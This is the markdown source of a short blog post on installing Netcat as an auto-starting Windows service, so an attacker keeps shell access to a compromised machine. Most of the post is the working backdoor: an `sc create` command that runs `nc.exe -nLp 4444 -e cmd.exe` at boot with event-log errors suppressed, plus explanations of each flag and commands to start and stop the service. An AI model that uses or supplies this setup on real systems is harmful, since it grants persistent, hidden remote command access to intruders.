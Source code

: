 ```yaml
---
title: 'Netcat as a service'
date: 2019-11-20 23:45
categories: security
tags: netcat hack learn 
featured_image: '/images/posts/netcat.jpg'
lead_text: "Installing netcat as a windows service"
---
```


Many times I've used Netcat to setup (reverse) shell from a compromised 
machine. Digging into services lately, I thought why not use a service
to make Netcat a persistent to be able to return to the machine.

## Adding the service
Service executables are no regular executables. Upon start, the service
process returns directly after starting, but keeps the process running.

Just using "_nc.exe_" would block the service control and keep the status
"starting...". So we use "_cmd /c start ..._" to return immediately after
spawning the "_nc.exe_" process.

```dos
C:\Windows\system32>sc create NcService binPath= "cmd.exe /c start c:\nc.exe -nLp 4444 -e cmd.exe" start= auto error= ignore
[SC] CreateService SUCCESS

C:\Windows\system32>
```

## Netcat options
Starting netcat with "_c:\nc.exe -nLp 4444 -e cmd.exe_".

The options provided to "_nc.exe_":

  * -n : Numeric ip-address, no DNS
  * -L : Persistent listener, restart listening after disconnect.
  * -p : Specify to listen on port 4444
  * -e : The program to run upon connect.

## Netcat service create options
The options provided to "_sc create_":

  * "start= auto" : Automatically start the service on booting
  * "error= ignore" : Do not log errors to eventlog.
  * "binPath= ..."

## Starting and stopping
Netcat is setup now, but still it is not an actual service.
Netcat will start, but there will be an error:

```dos
C:\>sc start NcService
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

C:\>

```

Also the status will not tell whether Netcat is running, neither
will it be possible to stop the service.

To stop Netcat, use taskkill:
```dos
C:\>taskkill /f /im nc.exe
SUCCESS: The process "nc.exe" with PID 5576 has been terminated.

C:\>sc start NcService
```

## Wrap up
So, not very pretty, but it works fine for me...
